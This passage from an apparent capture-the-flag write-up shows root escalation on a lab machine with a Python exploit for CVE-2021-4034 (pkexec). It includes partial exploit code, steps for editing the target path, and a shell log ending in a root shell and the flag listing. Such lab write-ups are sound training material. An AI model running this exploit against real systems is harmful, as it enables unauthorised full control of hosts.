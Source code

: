 - Create a new file and copy/paste the code in that file. Also, important, change the last line of code into the target machines `pkexec` path. `/home/red/.git/pkexec`

  ```
  red@red:~/.git$ ls -al
  total 44
  drwxr-x--- 2 red  red   4096 Jun  7 11:40 .
  drwxr-xr-x 4 root red   4096 Aug 17  2022 ..
  -rw-rw-r-- 1 red  red   3268 Jun  7 11:40 exploit.py
  -rwsr-xr-x 1 root root 31032 Aug 14  2022 pkexec
  red@red:~/.git$ cat exploit.py
  #!/usr/bin/env python3
  
  # CVE-2021-4034 in Python
  #
  # Joe Ammond (joe@ammond.org)
  #
  # This was just an experiment to see whether I could get this to work
  # in Python, and to play around with ctypes
  
  # This was completely cribbed from blasty's original C code:
  # https://haxx.in/files/blasty-vs-pkexec.c
  
  import base64
  import os
  import sys
  
  from ctypes import *
  from ctypes.util import find_library
  
  [SNIP!]
  
  print('[+] Calling execve()')
  # Call execve() with NULL arguments
  libc.execve(b'/home/red/.git/pkexec', c_char_p(None), environ_p) <- EDIT HERE!
  ```

- Now just run the exploit, get root, and red the flag.

  ```
  red@red:~/.git$ python3 exploit.py 
  [+] Creating shared library for exploit code.
  [+] Calling execve()
  # whoami
  root
  # id
  uid=0(root) gid=1001(red) groups=1001(red)
  # pwd
  /home/red/.git
  # cd /root
  # ls -al
  total 40
  drwx------  6 root root 4096 Apr 24  2023 .
  drwxr-xr-x 19 root root 4096 Aug 13  2022 ..
  lrwxrwxrwx  1 root root    9 Aug 14  2022 .bash_history -> /dev/null
  -rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
  drwx------  2 root root 4096 Aug 13  2022 .cache
  -rw-r--r--  1 root root  161 Dec  5  2019 .profile
  -rw-r--r--  1 root root   75 Aug 14  2022 .selected_editor
  drwx------  2 root root 4096 Aug 13  2022 .ssh
  -rw-------  1 root root    0 Apr 24  2023 .viminfo
  drwxr-xr-x  2 root root 4096 Apr 24  2023 defense
  -rw-r-----  1 root root   23 Aug 14  2022 flag3
  drwx------  3 root root 4096 Aug 13  2022 snap
  # cat flag3
  ```